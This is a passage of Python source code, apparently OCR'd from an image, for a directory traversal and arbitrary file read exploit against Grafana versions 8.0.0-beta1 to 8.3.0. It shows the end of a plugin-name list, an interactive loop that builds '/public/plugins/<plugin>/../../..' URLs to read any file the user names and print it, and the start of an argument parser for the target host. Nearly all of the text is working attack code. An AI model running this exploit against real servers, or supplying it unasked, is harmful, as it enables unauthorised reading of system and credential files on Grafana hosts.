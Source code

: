 ```python
    "histogram",
    "influxdb",
    "jaeger",
    "logs",
    "loki",
    "mssql",
    "mysql",
    "news",
    "nodeGraph",
    "opentsdb",
    "piechart",
    "pluginlist",
    "postgres",
    "prometheus",
    "stackdriver",
    "stat",
    "state-timeline",
    "status-histor",
    "table",
    "table-old",
    "tempo",
    "testdata",
    "text",
    "timeseries",
    "welcome",
    "zipkin"
]

def exploit(args):
    s = requests.Session()
    headers = { 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.' }

    while True:
        file_to_read = input('Read file > ')

        try:
            url = args.host + '/public/plugins/' + choice(plugin_list) + '/../../../../../../../../../../../../..' + file_to_read
            req = requests.Request(method='GET', url=url, headers=headers)
            prep = req.prepare()
            prep.url = url
            r = s.send(prep, verify=False, timeout=3)

            if 'Plugin file not found' in r.text:
                print('[-] File not found\n')
            else:
                if r.status_code == 200:
                    print(r.text)
                else:
                    print('[-] Something went wrong.')
                    return
        except requests.exceptions.ConnectTimeout:
            print('[-] Request timed out. Please check your host settings.\n')
            return
        except Exception:
            pass

def main():
    parser = argparse.ArgumentParser(description="Grafana V8.0.0-beta1 - 8.3.0 - Directory Traversal and Arbitrary File Read")
    parser.add_argument('-H',dest='host',required=True, help="Target host")
    args = parser.parse_args()

```